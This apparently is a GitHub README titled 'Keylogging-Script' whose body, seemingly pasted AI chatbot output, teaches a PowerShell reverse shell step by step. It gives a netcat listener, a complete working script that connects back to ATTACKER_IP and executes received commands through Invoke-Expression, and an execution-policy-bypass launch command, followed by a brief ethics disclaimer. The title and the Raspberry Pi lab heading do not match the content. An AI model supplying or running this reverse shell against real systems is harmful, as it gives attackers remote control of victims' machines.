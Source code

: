 # Keylogging-Script

## Creating a lab using the rasperry pi
Certainly! Let's break down how a reverse shell using PowerShell works, step by step. A reverse shell is a type of shell where the target machine (the victim) initiates a connection to an attacking machine (the attacker) and provides shell access.

### Components of a Reverse Shell

1. **Listener**: The attacking machine runs a service that listens for incoming connections.
2. **Reverse Shell Script**: The target machine runs a script that connects back to the listener and provides a shell interface.

### Step-by-Step Explanation of a PowerShell Reverse Shell Script

#### Step 1: Set Up a Listener on the Attacker Machine

On your attacking machine, you need to set up a listener that will wait for incoming connections. You can use `netcat` (nc) for this purpose:

```bash
nc -lvnp 4444
```

- `-l`: Listen mode.
- `-v`: Verbose mode.
- `-n`: No DNS resolution.
- `-p`: Local port.

This command tells `netcat` to listen on port 4444 for incoming connections.

#### Step 2: Create the Reverse Shell Script on the Target Machine

A simple PowerShell reverse shell script can be written as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
$buffer = New-Object System.Byte[] 1024
$encoding = New-Object System.Text.AsciiEncoding

while ($true) {
    $writer.Write("PS " + (Get-Location).Path + "> ")
    $read = $stream.Read($buffer, 0, $buffer.Length)
    $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
    try {
        $result = (Invoke-Expression $cmd 2>&1 | Out-String )
    }
    catch {
        $result  = $_.Exception.Message
    }
    $writer.WriteLine($result)
    $writer.Flush()
}
$client.Close()
```

### Explanation of the PowerShell Script

1. **Establishing the Connection:**
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", 4444)
    $stream = $client.GetStream()
    ```
    - `$client`: Creates a new TCP client object that connects to the attacker's IP on port 4444.
    - `$stream`: Retrieves the network stream used to send and receive data.

2. **Stream Writers and Encoders:**
    ```powershell
    $writer = New-Object System.IO.StreamWriter($stream)
    $writer.AutoFlush = $true
    $buffer = New-Object System.Byte[] 1024
    $encoding = New-Object System.Text.AsciiEncoding
    ```
    - `$writer`: A stream writer to send data to the attacker.
    - `$writer.AutoFlush = $true`: Ensures that the buffer is flushed automatically.
    - `$buffer`: A byte array buffer to read incoming data.
    - `$encoding`: ASCII encoding to convert bytes to strings and vice versa.

3. **Main Loop:**
    ```powershell
    while ($true) {
        $writer.Write("PS " + (Get-Location).Path + "> ")
        $read = $stream.Read($buffer, 0, $buffer.Length)
        $cmd = ($encoding.GetString($buffer, 0, $read)).Trim()
        try {
            $result = (Invoke-Expression $cmd 2>&1 | Out-String )
        }
        catch {
            $result  = $_.Exception.Message
        }
        $writer.WriteLine($result)
        $writer.Flush()
    }
    ```
    - `while ($true)`: An infinite loop to keep the connection open.
    - `$writer.Write("PS " + (Get-Location).Path + "> ")`: Sends the current PowerShell prompt to the attacker.
    - `$read = $stream.Read($buffer, 0, $buffer.Length)`: Reads incoming data from the stream into the buffer.
    - `$cmd = ($encoding.GetString($buffer, 0, $read)).Trim()`: Converts the buffer bytes to a string and trims whitespace.
    - `Invoke-Expression $cmd`: Executes the received command.
    - `2>&1 | Out-String`: Captures any errors and converts the output to a string.
    - `$writer.WriteLine($result)`: Sends the result back to the attacker.
    - `$writer.Flush()`: Ensures the output is sent immediately.

4. **Closing the Connection:**
    ```powershell
    $client.Close()
    ```
    - This line closes the TCP connection when the script ends (though in this infinite loop, it never reaches this point unless the script is interrupted).

### Putting It All Together

1. Start the listener on your attacker machine:
    ```bash
    nc -lvnp 4444
    ```

2. Run the PowerShell script on the target machine:
    - Save the script to a `.ps1` file, for example, `reverse_shell.ps1`.
    - Execute the script using PowerShell:
      ```powershell
      powershell -ExecutionPolicy Bypass -File reverse_shell.ps1
      ```

### Security and Ethical Considerations

- **Ethical Use**: Only use reverse shells in environments where you have explicit permission to do so, such as in penetration testing with prior authorization.
- **Security**: Reverse shells can be a significant security risk if misused. Ensure that you are following best practices for securing your systems and networks.
- **Legal**: Unauthorized access to computer systems is illegal and punishable by law. Always ensure that you have legal authorization before performing any activities involving reverse shells or other hacking tools.

By understanding the components and how they work, you can modify and create your own reverse shell scripts for legitimate and educational purposes.